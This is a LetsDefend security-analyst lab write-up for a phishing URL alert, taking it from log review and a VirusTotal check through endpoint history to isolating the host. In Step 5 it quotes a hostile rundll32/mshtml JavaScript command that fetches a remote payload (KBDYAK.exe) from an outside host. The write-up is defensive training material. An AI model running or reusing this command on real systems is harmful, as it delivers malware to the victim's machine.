



# LetsDefend Write-Up: SOC141 – Phishing URL Detected

|              |                                |
| ------------ | ------------------------------ |
| **Platform** | LetsDefend                     |
| **Event ID** | 86                             |
| **Rule**     | SOC141 - Phishing URL Detected |
| **Level**    | Security Analyst               |

## 1. Alert Details

| Field                | Value                    |
| -------------------- | ------------------------ |
| Event Time           | March 22, 2021, 21:23 PM |
| Username             | ellie                    |
| Source Hostname      | EmilyComp                |
| Source Address       | 172.16.17.49             |
| Destination Address  | 91.189.114.8             |
| Destination Hostname | mogagrocol.ru            |

## Step 1 - Read the Alert Details

I reviewed the SOC141 alert (Event ID 86) and recorded the time, username, source address, source hostname, destination address, destination hostname, and device action.

## Step 2 - Check the Log Management

I used the source IP address in Log Management and found connections from the source address to the URL.


## Step 3 - Analyze the URL

I searched for the URL on VirusTotal, and it was identified as malicious.


## Step 4 - Check Whether the URL Was Accessed

I used the destination IP address of the URL to search in Log Management for any devices that had connected to it. The search returned one device, which was the same device that triggered the alert.

## Step 5 - Review the Username History

I searched for `EmilyComp` in Endpoint Security and reviewed the terminal, process, and browser histories.




In the terminal history, I found the following command:

```text
rundll32.exe javascript:'../mshtml,RunHTMLApplication ';document.write();GetObject('script:http://ru-uid-507352920.pp.ru/KBDYAK.exe')'
```

This command is highly suspicious because it abuses the legitimate Windows executable `rundll32.exe` to invoke JavaScript through the `mshtml` component. It then uses `GetObject()` with a remote URL, indicating an attempt to retrieve or process content from an external host.

The URL references a file named `KBDYAK.exe`, which may be a malicious payload. The command's structure is consistent with a technique used by attackers to leverage legitimate Windows components to initiate suspicious script activity and retrieve external content.

I confirmed from the process history that the file `KBDYAK.exe` was executed on the device. Therefore, I needed to isolate the device for further investigation.

## Step 6 - Contain the Device

I contained the device by isolating it from the network to allow for further investigation.



I closed the alert as a **True Positive**.
